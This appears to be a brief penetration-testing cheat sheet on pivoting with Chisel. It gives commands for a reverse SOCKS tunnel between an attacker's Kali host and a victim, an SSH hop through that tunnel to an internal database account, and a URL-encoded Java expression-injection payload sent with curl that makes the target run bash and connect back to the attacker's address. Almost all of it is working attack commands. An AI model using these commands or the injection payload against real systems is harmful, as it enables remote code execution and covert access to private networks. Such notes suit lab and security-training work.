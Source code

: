### Chisel

Client/server model
chisel server on kali, chisel client on victim

chisel server --port 8080 --reverse
```
On Client 

/tmp/chisel client 192.168.45.238:8080 R:socks > /dev/null 2>&1 &

On Server
chisel server --port 8080 --reverse


ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

curl http://192.168.218.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.238:8080%20R:socks%27%29.start%28%29%22%29%7D/